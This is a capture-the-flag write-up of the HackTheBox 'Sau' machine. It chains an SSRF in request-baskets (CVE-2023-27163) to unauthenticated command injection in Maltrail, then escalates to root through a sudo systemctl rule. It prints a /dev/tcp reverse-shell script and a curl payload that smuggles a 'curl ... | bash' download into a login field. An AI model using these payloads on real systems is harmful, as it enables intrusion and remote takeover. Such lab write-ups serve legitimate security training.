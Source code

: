 ```yaml
---
layout: post
title: HackTheBox-Sau Walkthrough
date: 2023-12-29 08:00:00 -500
categories: [HackTheBox Walkthrough]
tags: [HackTheBox]
image: Sau.png
img_path: /assets/img/favicons/HackTheBox/Sau/
---
```


# Description :
Sau is an easy Hack The Box machine that features two vulnerabilities on its website—SSRF on the main site and OS Command Injection in a locally running website named Maltrail on port 80. The privilege escalation to root is straightforward, as the Puma user can execute a service with root privileges.



## Nmap :

Upon scanning the host's ports, we identified two open ports: 22 and 5555 : 

```bash
 /opt/nmapAutomator/nmapAutomator.sh -t All -H 10.10.11.224 

Running all scans on 10.10.11.224

Host is likely running Linux


---------------------Starting Port Scan-----------------------



PORT      STATE SERVICE
22/tcp    open  ssh
55555/tcp open  unknown



---------------------Starting Script Scan-----------------------



PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 aa:88:67:d7:13:3d:08:3a:8a:ce:9d:c4:dd:f3:e1:ed (RSA)
|   256 ec:2e:b1:05:87:2a:0c:7d:b1:49:87:64:95:dc:8a:21 (ECDSA)
|_  256 b3:0c:47:fb:a2:f2:12:cc:ce:0b:58:82:0e:50:43:36 (ED25519)
55555/tcp open  unknown
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     X-Content-Type-Options: nosniff
|     Date: Fri, 29 Dec 2023 13:52:51 GMT
|     Content-Length: 75
|     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 302 Found
|     Content-Type: text/html; charset=utf-8
|     Location: /web
|     Date: Fri, 29 Dec 2023 13:52:24 GMT
|     Content-Length: 27
|     href="/web">Found</a>.
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Allow: GET, OPTIONS
|     Date: Fri, 29 Dec 2023 13:52:24 GMT
|_    Content-Length: 0
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```


## TCP - PORT 5555

***About Request Baskets :Request Baskets is a web service to collect arbitrary HTTP requests and inspect them via RESTful API or simple web UI. It is strongly inspired by ideas and application design of the RequestHub project and reproduces functionality offered by RequestBin service.***

We can create a basket with name choice , in this case `emsec` :
![Alt text](web_basket_01.png)
![Alt text](web_basket_02.png)

![Alt text](web_basket_03.png)

Now, our basket is prepared and awaits incoming requests:

![Alt text](web_basket_04.png)

if we try to send requests to http://10.10.11.224:55555/emsec it will apear on `Request Baskets` :

![Alt text](web_basket_05.png)

also there is a parameters that we can modify :

![Alt text](web_basket_06.png)



## CVE-2023-27163 | SSRF:

By examining the website version

![Alt text](vulnerable_version.png)

I searched on Google for vulnerabilities in the `request-baskets  Version: 1.2.1` and discovered the associated steps on GitHub under[CVE-2023-27163 ](https://gist.github.com/b33t1e/3079c10c88cad379fb166c389ce3b7b3)

Having identified the SSRF on the website, by implementing this modification, we can exploit it.

![Alt text](web_basket_07.png)

revisiting the `/emsec` basket :
![Alt text](web_basket_08.png)

We successfully exploited the SSRF; it is now functioning as intended.


## OS Command Injection on Maltrail :


***what is Maltrail : [Maltrail](https://github.com/stamparm/maltrail/blob/master/README.md#introduction) is a malicious traffic detection system***

Upon inspecting the bottom, we can identify the version of Maltrail. After searching for its vulnerability on Google, we came across a post regarding [Unauthenticated OS Command Injection](https://huntr.com/bounties/be3c5204-fbd9-448d-b97c-96a8d2941e87/).

Now, let's proceed. Firstly, change the `Forward URL:` to `http://127.0.0.1:80/login`:

![Alt text](web_basket_09.png)

After executing the injection, we received the callback, confirming the successful functioning of the OS command :

![Alt text](shell.png)

## Shell as puma:

create your reversesehll and strat the http.server: 

* reverse shell :
  
```bash
┌──(emsec㉿emsec-pc)-[~]
└─$ cat shell.sh 
#!/bin/bash
bash -c "bash -i >& /dev/tcp/10.10.14.81/4444 0>&1"
```

* payload :

```bash
curl -X POST 'http://10.10.11.224:55555/emsec' \
  --data "username=;'curl http://10.10.14.81/shell.sh|bash'"
```

* Upgrading Shell to Fully Interactive TTYs :

```bash
export TERM=xterm
python3 -c "import pty;pty.spawn('/bin/bash')"

CTR+Z

stty -echo raw;fg

```

and then reading the user falg :

```bash
puma@sau:/opt/maltrail$ cd /home/puma/
puma@sau:~$ ls
user.txt
puma@sau:~$ cat user.txt 
d19b35b25e4df14c10326b***********
```

## Shell as root :


Upon inspecting the privileges of the current Puma user using `sudo -l`, we discovered the capability to execute `/usr/bin/systemctl status trail.service` with root permissions.

```bash
puma@sau:~$ sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```


It appears to be a straightforward privilege escalation. We can easily chack [GTFOBins](https://gtfobins.github.io/gtfobins/systemctl/#sudo)

![Alt text](gtfobins.png)



Get root by just running

`sudo /usr/bin/systemctl status trail.service` then `!sh`

![Alt text](root.png)


I hope you enjoyed my write-up. 

![](https://github.com/Mostafatoumi/mostafatoumi.github.io/blob/main/assets/img/favicons/HackTheBox/emsec_4.gif)

Happy hacking!

